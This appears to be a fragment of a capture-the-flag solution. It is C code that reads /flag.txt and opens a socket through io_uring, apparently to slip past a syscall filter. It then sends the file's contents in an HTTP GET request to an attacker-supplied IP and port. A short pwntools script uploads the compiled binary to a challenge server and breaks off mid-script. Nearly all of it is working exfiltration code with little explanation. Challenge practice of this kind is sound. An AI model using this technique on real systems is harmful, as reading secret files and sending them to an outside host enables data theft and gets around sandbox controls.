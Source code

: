 ```c
{
    struct io_uring ring;
    struct io_uring_sqe *sqe;
    struct io_uring_cqe *cqe;
    char message[0x100];
    char flag[0x100];

    memset(message, 0, 0x100);
    memset(flag, 0, 0x100);

    int fd = open("/flag.txt", 0);                      

    read(fd , flag, 0x100);
    write(1, flag, 0x100);

    io_uring_queue_init(1, &ring, 0);
    sqe = io_uring_get_sqe(&ring);
    
    sqe->opcode = IORING_OP_SOCKET;
    sqe->fd = AF_INET;
    sqe->off = SOCK_STREAM;
    sqe->len = 0;			
    sqe->rw_flags = 0;
    io_uring_submit(&ring);
    io_uring_wait_cqe(&ring, &cqe);

    int sockfd = cqe->res;

    strcat(message, "GET /");
    strcat(message, flag);
    strcat(message, " HTTP/1.1\r\n");
    strcat(message, "Connection: close\r\n\r\n");

    // socket connection

    struct sockaddr_in info;
    bzero(&info,sizeof(info));
    info.sin_family = PF_INET;

    // ip & port
    info.sin_addr.s_addr = inet_addr(ip);
    info.sin_port = htons(port);

    int err = connect(sockfd, (struct sockaddr *)&info, sizeof(info));
    send(sockfd, message, 0x100,0);

    return 0;
}

```
> upload.py
```python
from pwn import *

r = remote("chall-us.pwnable.hk", 20003)
with open("solve", 'rb') as file:
    data = file.read()

file_size = len(data)
print(f"file size: {file_size}")
r.sendline(str(file_size))
sleep(1)
print("Upload data")
```